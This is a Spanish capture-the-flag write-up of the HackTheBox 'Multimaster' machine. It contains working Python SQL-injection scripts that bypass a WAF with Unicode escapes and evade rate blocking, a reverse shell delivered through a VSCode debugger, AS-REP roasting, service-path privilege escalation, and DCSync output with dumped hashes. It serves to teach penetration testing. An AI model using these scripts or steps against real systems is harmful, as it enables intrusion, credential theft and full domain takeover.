<p align="center">

</p>

La intrusión se desarrolla sobre un entorno Windows de elevada complejidad, articulado en torno a una
aplicación web corporativa que expone un servicio vulnerable a inyección SQL, vector que permite obtener
acceso  inicial  al  servidor  y  enumerar  información  sensible  del  backend.  La  inspección  del  sistema
comprometido revela la presencia de una versión vulnerable de Visual Studio Code, cuyos procesos se
encuentran activos y cuya funcionalidad de depuración remota habilita la ejecución arbitraria de código. La
explotación de este subsistema permite obtener una sesión interactiva bajo la identidad del usuario cyork,
consolidando así un primer movimiento lateral dentro del host.

El  análisis  del  código  fuente de  la  aplicación,  tras  la  exfiltración  de  la  biblioteca  MultimasterAPI.dll,
revela  credenciales  embebidas  en  una  cadena  de  conexión.  La  reutilización  de  esta  contraseña  en  otros
servicios del dominio permite acceder mediante WinRM como sbauer, identidad que dispone de permisos
GenericWrite  sobre  el  objeto  de  usuario  jorden.  Este  privilegio  habilita  la  manipulación  de  atributos
críticos  del  directorio,  entre  ellos  la  configuración  de  pre-autenticación  Kerberos,  cuya  desactivación
posibilita la ejecución de un ataque de AS-REP Roasting y la obtención del hash Kerberos del usuario.

El descifrado del hash proporciona acceso directo a la cuenta jorden, miembro del grupo Server Operators,
cuyas capacidades permiten modificar la ruta de ejecución de servicios que operan en contexto SYSTEM.
La explotación de este privilegio culmina en la obtención de una sesión con privilegios máximos sobre el
sistema,  habilitando  la  ejecución  de  ataques  de  replicación  como  DCSync  y,  en  última  instancia,  el
compromiso total del dominio.

<p align="center"><strong><u>Enumeración</u></strong></p>

La dirección IP de la máquina víctima es 10.129.95.200. Por tanto, envié 5 trazas ICMP para verificar que existe conectividad entre las dos máquinas.



Una vez que identificada la dirección IP de la máquina objetivo, utilicé el comando nmap -p- -sS -sC -sV --min-rate 5000 -vvv -Pn 10.129.95.200 -oN scanner_multimaster para descubrir los puertos abiertos y sus versiones:

- (-p-): realiza un escaneo de todos los puertos abiertos.
- (-sS): utilizado para realizar un escaneo TCP SYN, siendo este tipo de escaneo el más común y rápido, además de ser relativamente sigiloso ya que no llega a completar las conexiones TCP. Habitualmente se conoce esta técnica como sondeo de medio abierto (half open). Este sondeo consiste en enviar un paquete SYN, si recibe un paquete SYN/ACK indica que el puerto está abierto, en caso contrario, si recibe un paquete RST (reset), indica que el puerto está cerrado y si no recibe respuesta, se marca como filtrado.
- (-sC): utiliza los scripts por defecto para descubrir información adicional y posibles vulnerabilidades. Esta opción es equivalente a --script=default. Es necesario tener en cuenta que algunos de estos scripts se consideran intrusivos ya que podría ser detectado por sistemas de detección de intrusiones, por lo que no se deben ejecutar en una red sin permiso.
- (-sV): Activa la detección de versiones. Esto es muy útil para identificar posibles vectores de ataque si la versión de algún servicio disponible es vulnerable. 
- (--min-rate 5000): ajusta la velocidad de envío a 5000 paquetes por segundo.
- (-Pn): asume que la máquina a analizar está activa y omite la fase de descubrimiento de hosts.



El reconocimiento inicial mediante Nmap evidenció una superficie de exposición significativamente amplia,
con  múltiples  servicios  accesibles  desde  el  exterior.  Entre  ellos  destacaban  los  puertos  53/TCP  (DNS),
389/TCP (LDAP) y 445/TCP (SMB), cuya concurrencia funcional constituye un indicador inequívoco de
que  el  activo  analizado  desempeña  el  rol  de  controlador  de  dominio  dentro  de  la  infraestructura
corporativa. La propia herramienta identificó el dominio asociado como MEGACORP.LOCAL, lo que
permitió inferir desde el inicio la presencia de un entorno Windows con servicios de directorio plenamente
operativos.

 

<p align="center"><strong><u>IIS</u></strong></p>

El  acceso  al  servicio  HTTP  en  el  puerto  80  reveló  un  portal  corporativo  orientado  a  empleados,
presumiblemente utilizado como interfaz de interacción interna. La navegación inicial permitió identificar
un mecanismo de autenticación accesible desde el botón LOGIN.

 

Sin  embargo,  la  funcionalidad  se  encontraba  temporalmente  inhabilitada,  devolviendo  un  mensaje  que
informaba de tareas de mantenimiento en curso.

 

Este comportamiento sugiere que el componente de autenticación no estaba expuesto en su totalidad o que
el backend asociado se encontraba parcialmente deshabilitado.

 

La sección Gallery del portal resultó ser estática y carente de elementos interactivos relevantes, limitándose
a la exposición de imágenes sin metadatos ni funcionalidades adicionales.

 

En contraste, la sección Colleague Finder sí presentaba un vector de interés: un campo de búsqueda que,
incluso cuando se enviaba vacío, devolvía un conjunto de resultados con atributos asociados a empleados,
incluyendo nombre, rol profesional y dirección de correo electrónico.

 

Este comportamiento indicaba la existencia de un backend accesible y potencialmente manipulable, por lo
que  se  procedió  a  interceptar la  solicitud  mediante  Burp  Suite,  reenviándola  posteriormente  al  módulo
Repeater para su análisis exhaustivo.

 

La inspección de la petición reveló un POST dirigido al endpoint /api/getColleagues, con un parámetro
name encapsulado en un cuerpo JSON. La respuesta del servidor, igualmente en formato JSON, incluía los
campos id, name, position, email y src, lo que confirmaba la existencia de un servicio de enumeración de
empleados expuesto sin restricciones aparentes.

Para validar la consistencia del endpoint y facilitar la extracción masiva de datos, se procedió a replicar la
solicitud  mediante  cURL,  procesando  la  salida  con  jq  para  obtener  una  representación  estructurada  y
manipulable de la información devuelta por el servidor.

 

Del mismo modo que en el caso de los nombres, la extracción de direcciones de correo electrónico resultó
igualmente trivial, permitiendo consolidar ambos conjuntos de datos en archivos independientes (names.txt
y emails.txt) para su posterior explotación en fases avanzadas de enumeración.

 

El comportamiento del endpoint sugiere de manera inequívoca que la consulta está siendo delegada a un
motor de base de datos, lo que convierte a este vector en un candidato idóneo para evaluar la presencia de
vulnerabilidades  de  inyección  SQL.  Como  aproximación  inicial,  se  procedió  a  introducir  un  apóstrofo
aislado en el parámetro de búsqueda con el fin de observar la reacción del backend.

 

La  respuesta  del  servidor  consistió  en  un  403  Forbidden,  lo  que  constituye  un  indicio  razonable  de  la
existencia de mecanismos de filtrado de entrada, ya sea implementados en la propia lógica de la aplicación
o mediante un Web Application Firewall. Ante este tipo de restricciones, una estrategia habitual consiste
en explorar variantes de codificación alternativas que puedan ser aceptadas por el parser JSON antes de
alcanzar la capa de filtrado.

 

El  análisis  de  la  especificación  RFC  correspondiente  revela  que,  aunque  la  codificación  por  defecto  es
UTF-8, el estándar contempla también UTF-16 y UTF-32, lo que abre la posibilidad de introducir cargas
útiles en formatos no previstos por los controles de seguridad.

```python
#!/usr/bin/python3
import sys, signal, requests, json
def exit_handler(sig, frame):
	print("\n[!] Saliendo de la aplicacion...")
	sys.exit(1)
	
#evento para controlar la salida de la aplicacion con Ctrl+C
signal.signal(signal.SIGINT, exit_handler)

def convert_input():
    while True:
        output = input('MULTIMASTER> ').strip()
        if not output: continue

        if output.lower() == 'exit':
            break
        

        utf = [f"\\u00{ord(i):02x}" for i in output]

        data_post = ''.join(utf)
        print(f"[+] Convirtiendo payload: {data_post}")

        injection_sql(data_post)

def injection_sql(datos):
    print("[+] Injectando respuesta en la peticion web")
    base_url = 'http://megacorp.local/api/getColleagues'

    try:
        #data_json = '{"name":"' + datos + '"}'
        data_json = f'{{"name":"{datos}"}}'

        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
            "Content-Type": "application/json;charset=utf-8",
        }

        response = requests.post(base_url, headers=headers, data=data_json)
        response.raise_for_status()

        print("[+] Peticion exitosa \n[+] Mostrando respuesta:")
        json_ordenado = json.loads(response.text)
        print(json.dumps(json_ordenado, indent=2, ensure_ascii=False))

    except requests.exceptions.RequestException as e:
         print(f"Ha habido un error en las peticiones HTML: {e}")
    except json.JSONDecodeError as e:
         print(f"Probablemente la respuesta no sea un JSON {e}")

if __name__ == '__main__':
    convert_input()
```

La inyección de un apóstrofo codificado en UTF-16 no generó ningún error, lo que justificó profundizar en
esta vía de explotación. Para ello, se recurrió a un conversor en línea y, posteriormente, a un script en Python
que permitiera automatizar la codificación de cargas útiles arbitrarias. Se procedió entonces a transformar
la  cadena  '  or  1=1--  -  a  su  representación  en  UTF-16,  obteniendo  un  payload  apto  para  ser  enviado  al
endpoint sin activar los mecanismos de bloqueo previamente observados.

 

La ejecución de la solicitud con la carga útil codificada resultó exitosa, confirmando de manera concluyente
la existencia de una vulnerabilidad de inyección SQL en el servicio.

 

A  partir  de  este  punto,  el  siguiente  paso  metodológico  consistió  en  determinar  el  número  de  columnas
devueltas  por  la  consulta  subyacente,  requisito  indispensable  para  construir  payloads  más  complejos  y
avanzar hacia técnicas de extracción de información estructurada del motor de base de datos comprometido.

 

La  inyección  del  payload  previamente  construido  devolvió  resultados  válidos,  lo  que  confirmó  que  la
consulta subyacente aceptaba la manipulación del parámetro y que la carga útil era procesada sin activar
mecanismos de filtrado adicionales.

 

A  partir  de  este  punto,  resultaba  imprescindible  determinar  la  estructura  exacta  de  la  tabla  afectada,  en
particular el número de columnas, para poder avanzar hacia técnicas de extracción más sofisticadas.

 

La prueba destinada a verificar si la tabla contenía más de cinco columnas devolvió un valor nulo, lo que
permitió concluir que la estructura estaba compuesta exactamente por cinco columnas, en consonancia con
los campos observados en las respuestas JSON del endpoint.

 

La correlación con los resultados del reconocimiento inicial evidenció que el motor de base de datos en uso
era  Microsoft  SQL  Server,  lo  que  condicionó  tanto  la  sintaxis  de  los  payloads  como  las  técnicas  de
enumeración posteriores.

 

Se procedió entonces a identificar la versión del motor y el nombre de la base de datos activa, obteniéndose
como resultado Hub_DB, que se convirtió en el punto focal de la fase de descubrimiento de objetos internos.

 

La enumeración de las tablas presentes en la base de datos reveló únicamente dos entidades: Colleagues y
Logins.

 

Mientras  que  la  primera  correspondía  al  conjunto  de  datos  ya  expuesto  por  el  portal  web,  la  segunda
constituía un vector de interés crítico, dado que su denominación sugería la presencia de credenciales o
artefactos relacionados con autenticación.

 

La  inspección  de  su  estructura  confirmó  esta  hipótesis:  la  tabla  Logins  contenía  exclusivamente  dos
columnas,  username  y  password,  lo  que  indicaba  que  almacenaba  pares  de  credenciales  en  formato
persistente.

 

La extracción de los valores contenidos en ambas columnas se completó sin restricciones, proporcionando
un conjunto de nombres de usuario y contraseñas en formato hash. La longitud de los hashes, 96 bytes,
constituye  un  indicador  relevante  para  la  identificación  del  algoritmo  empleado,  y  su  análisis  posterior
permitiría determinar la viabilidad de un ataque de cracking offline o la necesidad de recurrir a técnicas de
descifrado más avanzadas.

 

Para identificar el algoritmo de hashing empleado en las credenciales extraídas, se procedió a realizar una
correlación entre la longitud observada —96 bytes— y los modos soportados por Hashcat, utilizando un
filtrado previo en Bash para localizar todos los algoritmos cuya salida coincide con dicho tamaño.

 

El  análisis  reveló  que  los  candidatos  plausibles  eran  SHA2-384,  SHA3-384  y  Keccak-384,  todos  ellos
pertenecientes a  la familia de funciones criptográficas  de 384  bits. La tabla  contenía  únicamente cuatro
hashes  únicos,  por  lo  que  se  consolidaron  en  un  archivo  destinado  a  un  ataque  de  fuerza  bruta  offline,
empleando los modos 10800, 17500 y 17900 de Hashcat, correspondientes a los algoritmos identificados.

 

La ejecución del ataque utilizando el modo Keccak-384 permitió descifrar tres de los cuatro hashes, lo que
proporcionó  un  conjunto  inicial  de  contraseñas  en  texto  claro.  Dado  que  la  enumeración  previa  había
permitido  obtener  una  lista  exhaustiva  de  direcciones  de  correo  electrónico  corporativas,  se  procedió  a
derivar de ellas un conjunto ampliado de posibles nombres de usuario, asumiendo la práctica habitual en
entornos empresariales de utilizar el prefijo del correo como identificador de autenticación.

 

Con ambos conjuntos —las contraseñas descifradas y la lista de posibles usuarios— se llevó a cabo una
campaña  de  password  spraying  contra  los  servicios  expuestos  externamente,  concretamente  SMB  y
WinRM, utilizando la herramienta netexec para automatizar la interacción y registrar de forma precisa los
resultados.

 

Ninguna de las combinaciones probadas resultó válida, lo que indica que las credenciales descifradas no
pertenecen a los usuarios enumerados previamente o que su ámbito de validez se restringe a otros servicios
internos no expuestos en la superficie de ataque inicial.

<p align="center"><strong><u>Domain User Enumeration</u></strong></p>

En  entornos  Active  Directory,  cada  entidad  de  seguridad  —usuarios,  grupos  y  equipos—  posee  un
identificador  único  denominado  RID  (Relative  Identifier),  que  constituye  el  segmento  final  del  SID
(Security  Identifier).  Este  mecanismo  es  conceptualmente  análogo  al  principal_id  de  SQL  Server:  un
contador incremental que asigna valores consecutivos a los objetos del dominio. La obtención del RID de
un usuario concreto permite inferir la estructura del SID y, por extensión, iterar sobre rangos completos de
RIDs para identificar otros objetos del dominio mediante técnicas de enumeración lateral.

 

SQL Server proporciona la función SUSER_SID(), que devuelve el SID asociado a un usuario determinado.
Se  empleó  esta  función  para recuperar  el  SID del  administrador  primario  del  dominio.  Sin  embargo,  la
salida se presentó en formato VARBINARY, y la conversión implícita realizada por la cláusula UNION
generó una representación ilegible.

 

Para solventar esta limitación, se optó por exfiltrar el SID carácter por carácter, utilizando la columna id
como  canal  de  retorno  y  determinando  previamente  la  longitud  total  del  SID  mediante  la  función
DATALENGTH().

 

La función SUBSTRING() permitió extraer cada byte de forma individual. La primera consulta devolvió
el valor 1, lo que implica que los dos primeros dígitos del SID son 01, un comportamiento coherente con la
estructura estándar de los identificadores de seguridad en Windows.

 

A  partir  de  este  punto,  se  automatizó  el  proceso  mediante  un  script  que  incrementaba  la  posición  del
substring para enumerar secuencialmente todos los bytes del SID. Durante la ejecución se observó que el
servidor comenzaba a bloquear solicitudes tras varios intentos consecutivos, lo que sugiere la intervención
de un WAF.

 

Para  evitar  su  detección,  se  introdujo  un  retardo  de  dos  segundos  entre  cada  petición,  lo  que  permitió
completar la exfiltración sin interrupciones. Una vez reconstruido el SID completo, se utilizó la función
SUSER_SNAME() para realizar una resolución inversa y validar la identidad asociada.

 

La  consulta  devolvió  correctamente  MEGACORP\Administrator,  lo  que  confirmó  la  integridad  del
proceso de exfiltración.

 

El SID obtenido tenía una longitud total de 56 bytes, de los cuales los primeros 48 bytes correspondían al
SID del dominio, es decir, el identificador raíz a partir del cual se construyen todos los RIDs de objetos
del bosque. Con esta información, fue posible comenzar a generar RIDs arbitrarios para enumerar usuarios
del dominio de forma secuencial.

 

En Active Directory, cualquier objeto creado por administradores —y no por el propio sistema operativo—
recibe un RID igual o superior a 1000. El análisis de los últimos ocho bytes del SID exfiltrado reveló el
valor f401, que, tras invertir el orden y convertirlo a entero, produce 500, el RID reservado para la cuenta
Administrator por defecto. Este hallazgo confirmó la validez del método y permitió establecer el punto de
partida para la enumeración sistemática de usuarios.

Con la estructura del SID del dominio plenamente reconstruida y el RID base identificado, se automatizó
el proceso de bruteforce de RIDs a partir del valor 1000, con el objetivo de identificar usuarios adicionales
del dominio mediante consultas sucesivas al motor SQL.

```python
#!/usr/bin/python3

import json
import traceback, binascii
import requests
from time import sleep
from impacket.dcerpc.v5.dtypes import SID
import struct

base_url = "http://megacorp.local/api/getColleagues"

import sys, signal
def exit_handler(sig, frame):
	print("\n[!] Saliendo de la aplicacion...")
	sys.exit(1)
#evento para controlar la salida de la aplicacion con Ctrl+C
signal.signal(signal.SIGINT, exit_handler)

def convert_input(output):
    '''
    Funcion para convertir la consulta SQL a carateres unicode
    '''       
    # El modificador :02x asegura que siempre ocupe 2 espacios (ej: '0a' en vez de 'a')
    utf = [f"\\u00{ord(i):02x}" for i in output]
    
    data_post = ''.join(utf)
    return data_post

def getdatasqli(sqili):
    '''
    Retorna datos filtrados de la base de datos mediante sql injection
    '''
    try:
        sqli_unicode = convert_input(sqili)
        post_data = '{"name":"%s"}' % sqli_unicode
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0",
            "Content-type": "text/json; charset=utf-8"
        }
            
        r = requests.post(base_url, headers=headers, data=post_data)
        r.raise_for_status()

        if r.status_code == 403:
            print("Las peticiones estan siendo bloqueadas por el WAF")

        data = json.loads(r.text)[0]["name"]
        return data
    except requests.exceptions.RequestException as e:
        print(f"Error en la solicitud: {e}")
        if e.response is not None:
            if e.response.status_code == 403:
                print("[+] Es posible que el WAF haya bloqueado las peticiones web. Esperando 30 segundos...")
                sleep(30)
                print("[+] Continuando enumeracion de usuarios...")

def hex_to_sid(hex_str):
    '''
    Convierte el SID devuelto por la base de datos a un SID canonico
    '''
    if hex_str.lower().startswith('0x'):
        hex_str = hex_str[2:]
    
    try:
        return SID(bytes.fromhex(hex_str)).formatCanonical()
    except ValueError as e:
        
        print(f"Error de formato hexadecimal: {e}")
        
    except struct.error as e:
        
        print(f"Error al parsear el SID con Impacket: {e}")
    except Exception as e:
        tipo_error = type(e).__name__
        traza_completa = traceback.format_exc()
        
        mensaje_detalle = (
            f"\n[!] Ocurrió un error de tipo: {tipo_error}\n"
            f"[!] Mensaje del sistema: {e}\n"
            f"[!] Detalles técnicos de la traza:\n"
            f"{'-'*50}\n"
            f"{traza_completa}"
            f"{'-'*50}\n"
        )
        print(mensaje_detalle)
    return None

def main():
    print("[+] Buscando un dominio valido")

    #sqlinjection destinada a encontrar el nombre de dominio
    sqilinjection = "test' union select 1,(select DEFAULT_DOMAIN()),3,4,5-- -"
    domain = getdatasqli(sqilinjection)
    print(f"[+] Dominio valido encontrado: {domain}")

    #sql injection destinada a encontrar el SID del usuario
    sqilinjection = f"test' union select 1,(master.dbo.fn_varbintohexstr(SUSER_SID('{domain}\\Domain Admins'))),3,4,5-- -"
    sid = getdatasqli(sqilinjection)
    print(f"[+] SID valido encontrado: {sid[:-8]}")

    '''
    Buscando Usuarios en el dominio
    '''
    print("[+] Buscando usuarios en el dominio")
    for i in range(500, 10001):
        rid = binascii.hexlify(struct.pack("<I", i)).decode()
        sid_completo = f"{sid[:-8]}{rid}"

        sqilinjection = f"test' union select 1,(select SUSER_SNAME({sid_completo})),3,4,5-- -"
        usuarios = getdatasqli(sqilinjection)

        if usuarios:
            print(f"SID: {hex_to_sid(sid_completo)} Usuario: {usuarios}")

        sleep(2) #evita detecciones en el WAF
    
if __name__ == '__main__':
    main()
```

Este  procedimiento  constituye  una  técnica  avanzada  de  enumeración  lateral  que  permite  reconstruir  la
topología de identidades del dominio incluso en ausencia de privilegios directos sobre Active Directory.

 

<p align="center"><strong><u>Foothold</u></strong></p>

El proceso de enumeración automatizada permitió identificar cuatro usuarios adicionales en el dominio.
Con  este  nuevo  conjunto  de  identidades,  se  procedió  a  realizar  un  password  spraying  sistemático
utilizando netexec, orientado a los servicios expuestos externamente, concretamente SMB y WinRM.

La prueba reveló que las credenciales tushikikatomo / finance1 eran válidas para WinRM, lo que habilitó
un vector de acceso remoto mediante el protocolo nativo de administración de Windows en el puerto 5985.

 

<p align="center"><strong><u>WinRM</u></strong></p>

Se  estableció  una  sesión  interactiva  utilizando  Evil-WinRM,  confirmando  la  autenticidad  de  las
credenciales y la capacidad de ejecutar comandos en el sistema comprometido.

 

La inspección inicial del entorno reveló que el usuario carecía de privilegios elevados y no disponía de
acceso al directorio C:\inetpub, lo que sugiere un perfil operativo limitado.

<p align="center"><strong><u>Lateral Movement (cyork)</u></strong></p>

Se continuó con la fase de enumeración del host para identificar posibles vectores de movimiento lateral.
El  análisis  del  directorio  Program  Files  evidenció  la  presencia  de  Visual  Studio  Code  (VSCode),  un
hallazgo relevante dado que ciertas versiones del editor incorporan funcionalidades de depuración remota
susceptibles de abuso.

 

La  enumeración  de  procesos  mediante  Get-Process  confirmó  que  múltiples  instancias  de  VSCode  se
encontraban activas. La verificación de la versión instalada reveló que correspondía a una iteración afectada
por una vulnerabilidad de ejecución remota de comandos, documentada públicamente en un análisis técnico
que  incluye  un  aviso  de  seguridad  emitido  por  Tavis  Ormandy.  Dicho  aviso  detalla  que  el  VSCode
Remote  Debugger  permanece  habilitado  por  defecto,  exponiendo  un  canal  de  depuración  basado  en
tecnologías Electron, Chromium y CEF.

 

En  este  contexto,  resulta  pertinente  describir  brevemente  el  funcionamiento  del  CEF  debugger.  El
Chromium  Embedded  Framework  (CEF)  es  una  arquitectura  que  permite  integrar  componentes  del
navegador Chromium dentro de aplicaciones nativas.  Su debugger expone  un  conjunto de  interfaces de
inspección y control diseñadas para desarrolladores, incluyendo la capacidad de evaluar código JavaScript
en tiempo real, manipular el DOM y ejecutar comandos dentro del contexto del proceso que aloja el motor.

Cuando  estas  interfaces  se  encuentran  habilitadas  sin  restricciones,  pueden  ser  instrumentalizadas  para
obtener  ejecución  arbitraria  de  código  en  el host,  convirtiéndose  en  un  vector  de  explotación  altamente
eficaz.

La  búsqueda  de  recursos  relacionados  con  el  aviso  de  Ormandy  condujo  al  repositorio  cefdebug,  que
proporciona binarios compilados para interactuar con depuradores de Electron, CEF y Chromium.

 

Tras descargar y descomprimir la versión correspondiente, el binario fue transferido al servidor mediante
el comando upload de Evil-WinRM.

 

Su  ejecución  permitió  identificar  los  sockets  de  depuración  activos,  confirmando  la  presencia  de  dos
instancias de CEF debugger escuchando en el sistema.

 

Se  procedió  a  validar  la  vulnerabilidad  mediante  la  ejecución  de  código  de  prueba,  lo  que  confirmó  la
capacidad de interactuar con el servicio y ejecutar instrucciones dentro del contexto del proceso.

 

Con la interacción establecida, el siguiente objetivo consistió en obtener una reverse shell. Para ello, se
levantó un servidor web en el puerto 80 y se emitieron las instrucciones necesarias para descargar un binario
de Netcat en el host comprometido, preparando así el entorno para establecer un canal de retorno hacia la
infraestructura del auditor.

 

Con el binario de Netcat ya transferido al host comprometido, se procedió a habilitar un listener en el puerto
9001,  estableciendo  así  el  canal  de  retorno  necesario  para  obtener  una  reverse  shell  desde  el  proceso
vulnerable.

 

La ejecución del payload a través del depurador confirmó la capacidad de invocar instrucciones arbitrarias
en el contexto del proceso de VSCode, lo que permitió materializar la conexión inversa y obtener una sesión
interactiva plenamente operativa.

 

<p align="center"><strong><u>Lateral Movement (sbauer)</u></strong></p>

La inspección del entorno de ejecución reveló que la cuenta cyork pertenecía al grupo Developers, una
pertenencia especialmente relevante dado que este grupo dispone de permisos de acceso sobre el directorio
C:\inetpub,  un  enclave  habitual  para  aplicaciones  web  y  servicios  expuestos.  Este  hallazgo  abrió  la
posibilidad  de  identificar  artefactos  sensibles,  configuraciones  internas  o  componentes  susceptibles  de
abuso para escalar privilegios o pivotar hacia otros servicios.

 

El  análisis  preliminar  del  contenido  de  C:\inetpub  evidenció  la  presencia  de  archivos  y  directorios  de
interés,  cuya  estructura  y  función  sugerían  la  existencia  de  componentes  web  activos  o  residuales.  La
enumeración detallada de estos elementos constituiría el siguiente paso lógico en la fase de movimiento
lateral,  dado  que  los  directorios  de  publicación  web  suelen  albergar  configuraciones,  credenciales
embebidas,  scripts  ejecutables  o  binarios  auxiliares  que  pueden  ser  instrumentalizados  para  obtener
persistencia o elevar privilegios dentro del sistema comprometido.

 

<p align="center"><strong><u>Reverse Engineering</u></strong></p>

El directorio bin dentro de C:\inetpub resultó particularmente sugestivo desde una perspectiva ofensiva. Su
inspección  minuciosa  reveló  la  presencia  de  la  biblioteca  MultimasterAPI.dll,  un  componente
potencialmente crítico al tratarse de una pieza ensamblada para la lógica interna de la aplicación web. Con
el fin de proceder a un análisis estático y dinámico más exhaustivo, se habilitó un servidor SMB mediante
el módulo smbserver.py de Impacket, lo que permitió transferir la DLL hacia el entorno del auditor de forma
controlada.

 

La operación de copia se realizó tras mapear la unidad remota mediante el comando net use, estableciendo
así un canal de comunicación persistente entre el host comprometido y la infraestructura del auditor.

 

Una vez transferido el archivo, la herramienta file confirmó que se trataba de un ensamblado .NET, lo que
habilitó  su  apertura  directa  en  ILSpy,  un  editor  y  depurador  especializado  en  ingeniería  inversa  de
assemblies .NET.

 

La revisión  del  código fuente  descompilado,  concretamente  en  el  espacio  de  nombres
MultimasterAPI.Controllers y dentro del controlador ColleagueController, reveló un hallazgo crítico: una
cadena de conexión embebida que incluía la contraseña D3veL0pM3nT!.

La  presencia  de  credenciales  en  código  fuente  constituye  una  mala  praxis  recurrente  en  entornos
corporativos  y,  en  muchos  casos,  estas  contraseñas  siguen  patrones  reutilizados  o  coherentes  con
convenciones internas de la organización.

 

Por ello, antes de proceder a un password spraying indiscriminado, se verificó la política de contraseñas
del dominio.

 

El análisis de la política reveló que no existían mecanismos de bloqueo de cuentas, lo que eliminaba el
riesgo de denegación de servicio por intentos fallidos y habilitaba la posibilidad de realizar un password
spraying  seguro.  Con  esta  información,  se  procedió  a  probar  la  contraseña  obtenida  contra  el  servicio
WinRM, utilizando la lista de usuarios enumerados previamente.

 

El resultado confirmó la hipótesis inicial: la contraseña había sido reutilizada. El servicio WinRM aceptó
las credenciales sbauer / D3veL0pM3nT!, proporcionando acceso remoto al sistema bajo la identidad de
este usuario. Este hallazgo constituye un vector de escalada lateral significativo, derivado directamente de
una mala gestión de credenciales en el entorno de desarrollo.

 

<p align="center"><strong><u>Privilege Escalation</u></strong></p>

Para  avanzar  en  la  fase  de  escalada  de  privilegios  dentro  del  dominio,  se  empleó  BloodHound  como
plataforma  de  enumeración  y  correlación  relacional  de  objetos  de  Active  Directory.  El  ingestor
bloodhound-python  permitió  recopilar  de  forma  remota  la  totalidad  de  los  metadatos  relevantes  del
dominio, incluyendo relaciones de control, delegaciones implícitas, ACLs, pertenencias a grupos y rutas de
privilegio potenciales.

 

Una vez procesados los datos, la interfaz gráfica de BloodHound facilitó la visualización de las cadenas de
ataque disponibles, permitiendo identificar vectores de escalada que no serían evidentes mediante técnicas
manuales.

 

En la pestaña Search, se marcó el usuario SBAUER@MEGACORP.LOCAL como owned, habilitando
así  el  análisis  de  rutas  ascendentes  desde  su  posición  actual.  La  sección  Reachable  High  Value  Targets
reveló  un  hallazgo  crítico:  el  usuario  sbauer  disponía  de  permisos  GenericWrite  sobre  el  objeto
JORDEN@MEGACORP.LOCAL, considerado de alto valor debido a su pertenencia al grupo Server
Operators, uno de los grupos privilegiados del dominio con capacidad para gestionar servicios críticos del
sistema.

El permiso GenericWrite otorga la facultad de modificar cualquier atributo no protegido del objeto destino,
incluyendo  propiedades  sensibles  como  servicePrincipalNames,  logon  scripts,  o  configuraciones  de
seguridad  específicas.  Entre  estas,  destaca  la  capacidad  de  modificar  el  atributo  que  controla  la
pre-autenticación Kerberos, una medida de seguridad diseñada para impedir ataques de adivinación de
contraseñas.

Cuando la pre-autenticación está habilitada, el cliente debe enviar un timestamp cifrado con la clave del
usuario antes de recibir un Ticket Granting Ticket (TGT). Si se deshabilita, el atacante puede enviar una
solicitud AS-REQ vacía y el KDC devolverá un TGT cifrado directamente con el hash NTLM del usuario,
exponiendo así un material criptográfico susceptible de ser sometido a un ataque offline.

Partiendo  de  la  hipótesis  de  que  el  usuario  Jorden  podría  tener  una  contraseña  débil  o  predecible,  se
procedió a deshabilitar la pre-autenticación Kerberos mediante el cmdlet Get-ADUser, aprovechando el
permiso GenericWrite previamente identificado.

 

Con la configuración modificada, se utilizó la herramienta GetNPUser de Impacket para ejecutar un ataque
de  AS-REP  Roasting,  orientado  a  extraer  el  TGT  cifrado  del  usuario  sin  necesidad  de  conocer  su
contraseña.

 

<p align="center"><strong><u>Hashcat</u></strong></p>

El hash obtenido mediante AS-REP Roasting fue sometido a un ataque de fuerza bruta offline utilizando
Hashcat. Para ello, se almacenó el material criptográfico en un archivo denominado hash y se procedió a
identificar el modo adecuado para su descifrado. Dado que el hash correspondía a un Kerberos 5 AS-REP
etype 23, se seleccionó el modo 18200, ejecutando posteriormente Hashcat con el diccionario rockyou.txt
como fuente de candidatos.

 

El ataque resultó exitoso, revelando la contraseña rainforest786 asociada al usuario jorden, lo que permitió
establecer una sesión remota mediante WinRM bajo dicha identidad.

 

La  pertenencia  de  jorden  al  grupo  Server  Operators  constituye  un  vector  de  escalada  de  privilegios
especialmente crítico. Este grupo dispone de la capacidad de iniciar, detener y modificar las propiedades
de múltiples servicios del sistema, incluyendo el servicio Computer Browser, que se ejecuta en el contexto
de SYSTEM. La posibilidad de alterar la ruta del binario asociado a un servicio de este tipo convierte a
Server  Operators  en  un  grupo  de  alto  riesgo,  cuya  membresía  debería  estar  estrictamente  controlada  y
monitorizada,  especialmente porque  también permite  el  inicio  de  sesión  interactivo  en  controladores  de
dominio.

 

Se procedió a modificar la ruta del binario del servicio vulnerable y se verificó que el cambio había sido
aplicado correctamente.

 

Tras detener y reiniciar el servicio, la ejecución del payload configurado permitió obtener una reverse shell
con privilegios elevados.

 

Sin embargo, la sesión resultó inestable, por lo que se optó por una estrategia más robusta: crear un nuevo
usuario y añadirlo al grupo Administrators, garantizando así un acceso persistente y estable al sistema
comprometido.

 

Con privilegios administrativos, se ejecutó un ataque DCSync, obteniendo las credenciales del dominio
directamente desde el controlador de dominio. Este ataque, basado en la capacidad de replicación de Active
Directory, permite extraer hashes NTLM y Kerberos de cualquier cuenta, incluyendo la del administrador
del dominio, siempre que el atacante disponga de privilegios equivalentes a los de un Domain Controller o
de un objeto con delegaciones de replicación.

```java
┌──(usuario㉿kali)-[~/HTB/multimaster/content]
└─$ impacket-secretsdump usuario:'abcABC1234'@MULTIMASTER.MEGACORP.LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0xbf52866106a6efc249f28895d39f99d3
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:da044beedf173cf4ada93d034aa820fb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
MEGACORP\MULTIMASTER$:aes256-cts-hmac-sha1-96:2d3be29fa7a06a73e2b40b2e4c4b8e8b58d5e633955f11bae5d691473ffa1b87
MEGACORP\MULTIMASTER$:aes128-cts-hmac-sha1-96:43f09b3c121d6c4db6f10d1c71d5b2f8
MEGACORP\MULTIMASTER$:des-cbc-md5:e04ff81f62f2ec32
